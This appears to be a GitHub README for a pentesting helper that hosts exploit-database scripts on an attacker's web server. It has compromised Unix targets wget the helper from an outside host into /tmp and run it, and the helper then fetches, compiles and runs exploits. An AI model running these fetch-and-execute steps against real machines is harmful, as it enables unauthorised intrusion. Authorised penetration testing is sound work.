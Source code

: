 # Exploit Database Upload
The purpose of this is to make the process of uploading exploit database scripts to a target machine. The local script will make 
the webserver and the upload files will curl and compile/run the files. I created this because I have been annoyed by the boring 
process of uploading, compiling, running, and crying as each script fails (jk). This speeds up the process.
It also allows other scripts to be uploaded and ran, so it isn't limited to exploit database exploits.

## Purpose and usage
This is built to work in a pentest of most unix devices. The host system I use is kali linux, but any machine with SimpleHTTPServer 
(python) installed should work. The upload file pulls from a server running this way, so modification will have to happen (port) to 
get it working its best.

## Instructions

**Local**

Run the local file
```
bash local.sh
```
**Remote**

Upload the 'upload' file to /tmp. I'll give the example of using a webserver
```
wget ip:port/file > /tmp/upload.py
```
Example
```
wget 192.168.1.6:8000/upload.py > /tmp/upload.py
```
The upload.py file will already be hosted on the server to start with, so this method should be simple.
The rest of the program should be fairly simple to use after running
```
cd /tmp
python3 upload.py
```
The program may work in python 2, but the functionality is not as good as I would like it to be. Please use python 3.
